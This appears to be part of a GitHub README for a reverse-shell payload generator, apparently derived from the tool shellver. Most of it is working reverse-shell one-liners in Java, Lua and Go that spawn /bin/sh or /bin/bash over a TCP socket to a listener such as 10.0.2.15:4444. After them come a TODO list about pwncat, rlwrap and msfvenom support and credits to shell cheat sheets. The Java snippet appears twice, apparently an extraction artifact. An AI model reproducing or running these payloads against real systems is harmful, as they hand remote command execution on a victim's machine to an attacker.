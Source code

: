 ```
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
╠═══════════════════════════════════════════════════
║ String host="xxx";
int port=yyy;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
╚═══════════════════════════════════════════════════

╔LUA═════════╦══════════════════════════════════════
║ Linux only ║ lua -e "require('os');t=require('socket').tcp():connect('10.0.2.15','4444');os.execute('/bin/sh -i <&3 >&3 2>&3');"
╠════════════╩══════╦═══════════════════════════════
║ Windows and Linux ║ lua5.1 -e 'local host, port = "xxx", yyy local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, 'r') local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
╚═══════════════════╩═══════════════════════════════

╔GOLANG══════╦══════════════════════════════════════
║ Linux only ║ echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.0.2.15:4444");m:=exec.Command("/bin/sh");m.Stdin=c;m.Stdout=c;m.Stderr=c;m.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
╚════════════╩══════════════════════════════════════
```

# TODO
- [x] Make it possible to pass custom listeners  
- [x] Bind to specified interface only (or to all if no LAN IP address was used)  
- [x] If using [pwncat](https://github.com/calebstewart/pwncat) only show Linux (or universal) reverse shells  
- [x] If using [rlwrap](https://linux.die.net/man/1/rlwrap) only show Windows (or universal) reverse shells  
- [x] Make it possible to use non-default network interfaces when you have more than one  
- [x] Make it possible to use a completely different IP address if you create the payload on your machine but want to run the listener on a different (Internet exposed) server  
- [x] Sanity check for user inputs and ask for corrections  
- [x] `msfvenom` payloads where no compatible `msfpc` payload exists (e.g. shellcode) don’t automatically spawn a shell yet

# Thanks to
* [The original shellver](https://github.com/0xR0/shellver)
* [Reverse Bash Shell One Liner](https://security.stackexchange.com/questions/166643/reverse-bash-shell-one-liner)
* [Pentest Monkey - Cheat Sheet Reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [Spawning a TTY Shell](http://netsec.ws/?p=337)
* [Obtaining a fully interactive shell](https://forum.hackthebox.eu/discussion/142/obtaining-a-fully-interactive-shell)
* [pwncat](https://github.com/calebstewart/pwncat)

